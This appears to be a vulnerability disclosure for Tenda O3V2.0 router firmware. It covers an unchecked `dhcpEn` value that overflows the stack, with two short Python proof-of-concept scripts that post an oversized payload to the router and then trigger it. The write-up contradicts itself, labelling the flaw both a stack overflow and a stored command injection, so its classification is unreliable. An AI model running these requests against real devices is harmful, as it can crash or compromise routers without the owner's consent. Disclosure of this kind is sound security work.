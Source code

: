 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `dhcpEn` POST parameter accepted by `/goform/setDhcpConfig` is written to the configuration key `dhcps.en` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getDhcpConfig`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Command injection (persistent / stored)
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `dhcps.en`.

## Technical details

- The `setDhcpConfig` endpoint accepts a POST parameter `dhcpEn` and calls `SetValue("dhcps.en", Var)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_112937.png)

- The `getDhcpConfig` endpoint reads `dhcpEn` via `GetValue("dhcps.en", v15)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_113229.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `dhcps.en` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setDhcpConfig"
payload =  b"a"*1000

data = {"dhcpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getDhcpConfig"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)